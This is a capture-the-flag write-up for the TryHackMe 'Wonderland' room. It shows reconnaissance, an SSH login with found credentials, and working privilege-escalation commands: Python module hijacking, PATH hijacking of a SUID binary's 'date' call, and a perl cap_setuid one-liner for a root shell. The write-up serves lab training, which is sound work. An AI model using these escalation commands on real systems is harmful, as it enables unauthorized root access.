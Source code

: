 # Wonderland

**Room link:** https://tryhackme.com/room/wonderland

1. `nmap` reveals SSH and HTTP services on standard ports.

2. `gobuster` on the web page reveals the following directories:

```
/img (Status: 301)
/poem (Status: 301)
/r (Status: 301)
```

Further investigation & guesses lead to the page `http://$TARGET_IP/r/a/b/b/i/t/` whose source contains some hidden credentials `alice:**REDACTED**`.

3. These credentials allow to log in as `alice` through SSH.

```
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

We have the right to run `walrus_and_the_carpenter.py` as `rabbit`. This script imports the `random` module and picks 10 random lines in a hardcoded poem.

2. Let us hijack the `random` module by creating a `random.py` file in the directory to spawn a shell as `rabbit`.

```
alice@wonderland:~$ echo "import os; os.system('/bin/bash')" > random.py
alice@wonderland:~$ sudo -u rabbit python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

3. In its home directory, `rabbit` has a SUID executable (that does not seem to do anything interesting when we launch it).

```
rabbit@wonderland:/home/rabbit$ ls -l
total 20
-rwsr-sr-x 1 root root 16816 May 25  2020 teaParty
```

Because `strings` is not available on the target, we copy `teaParty` to `/tmp` for instance and bring it back to the local machine with `scp` using `alice`.

4. Using strings, we notice one interesting line in particular:

```
$ strings teaParty
...
/bin/echo -n 'Probably by ' && date --date='next hour' -R
...
```

`teaParty` seems to be invoking a shell line within which the `date` command is called with a relative path.

5. Back on the target machine, let us hijack the `date` command.

```
rabbit@wonderland:/home/rabbit$ echo /bin/bash > date
rabbit@wonderland:/home/rabbit$ chmod +x date
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```
We get a shell as `hatter`.

6. Its home directory conveniently contains a `password.txt` file containing an anticipated piece of information allowing us to properly log in as `hatter` through SSH. It is not a sudoer. We look for interesting executables related to this user.

```
hatter@wonderland:~$ find / -group hatter -type f -executable 2>/dev/null
/usr/bin/perl5.26.1
/usr/bin/perl
...
hatter@wonderland:~$ ls -l /usr/bin/perl*
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl
-rwxr-xr-x 1 root root     10216 Nov 19  2018 /usr/bin/perl5.26-x86_64-linux-gnu
-rwxr-xr-- 2 root hatter 2097720 Nov 19  2018 /usr/bin/perl5.26.1
...
hatter@wonderland:~$ getcap /usr/bin/perl*
/usr/bin/perl = cap_setuid+ep
/usr/bin/perl5.26.1 = cap_setuid+ep
```
We can run `/usr/bin/perl` (or equivalently `/usr/bin/perl5.26.1`), which has an [interesting capability](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

7. Time to [exploit this capability with perl](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/) and finally become `root` and collect the **root flag** (in `/home/alice` as seen in step 3) as well as the **user flag** (in `/root`).

```
hatter@wonderland:~$ perl -e 'use POSIX (setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~# cat /home/alice/root.txt 
**REDACTED**
root@wonderland:~# cat /root/user.txt 
**REDACTED**
```
